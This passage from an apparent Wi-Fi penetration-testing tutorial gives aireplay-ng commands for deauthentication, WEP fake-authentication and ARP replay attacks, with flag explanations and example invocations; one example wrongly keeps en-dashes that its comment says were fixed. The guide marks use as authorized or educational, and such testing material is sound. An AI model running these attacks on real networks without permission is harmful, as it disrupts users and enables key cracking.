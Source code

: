 
## Step 4: Perform Specific Attacks (`aireplay-ng` - With Authorization ONLY)




### Deauthentication Attack (for WPA/WPA2 Handshake Capture or Disruption)

```bash
# sudo aireplay-ng -0 <num_deauths> -a <BSSID_of_AP> [-c <client_MAC>] <monitor_interface>
#   -0 <num_deauths>: Number of deauthentication packets to send (0 means send continuously). Use a small number like 1-5 for handshake capture.
#   -a <BSSID_of_AP>: MAC address of the target Access Point.
#   -c <client_MAC>: (Optional) MAC address of a specific client to deauthenticate. If omitted, deauthenticates all clients from the AP (broadcast deauth).
#   <monitor_interface>: Your monitor mode interface.

# Example: Send 5 deauths to a specific client to try and capture a handshake
# (run this while `airodump-ng` is capturing on the same BSSID and channel).
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon

# Example: Send broadcast deauths to all clients on an AP (more disruptive)
# sudo aireplay-ng -0 0 -a 00:11:22:33:44:55 wlan0mon # Continuous, use Ctrl+C to stop
```

### WEP Cracking Related Attacks (Outdated - Educational Context Only)



#### Fake Authentication Attack (WEP)

```bash
# sudo aireplay-ng -1 <delay_ms> -e <ESSID_of_AP> -a <BSSID_of_AP> -h <your_MAC_address> <monitor_interface>
#   -1 <delay_ms>: Delay between authentication attempts (e.g., 0 for continuous, or 1000 for 1 second).
#   -e <ESSID_of_AP>: Name of the target network.
#   -a <BSSID_of_AP>: MAC address of the AP.
#   -h <your_MAC_address>: Your MAC address (or a spoofed one). Use `macchanger --show <monitor_interface>` to see yours.
# Example:
# sudo aireplay-ng -1 0 -e "MyWEPNetwork" -a 00:11:22:AA:BB:CC -h 11:22:33:44:55:66 wlan0mon
```

#### ARP Replay Attack (WEP)

```bash
# sudo aireplay-ng -3 -b <BSSID_of_AP> -h <your_MAC_address> <monitor_interface>
#   -3: ARP request replay attack.
#   -b <BSSID_of_AP>: MAC address of the target AP.
#   -h <your_MAC_address>: Your MAC address (must be associated).
#   -x <pps>: Packets per second for replay (e.g., 1000).
#   -n <count>: Number of packets to replay.
# Example (from original):
# sudo aireplay-ng -3 –x 1000 –n 1000 –b <BSSID> -h <OurMac> wlan0mon
# (Note: original used en-dashes, corrected to hyphens)
```
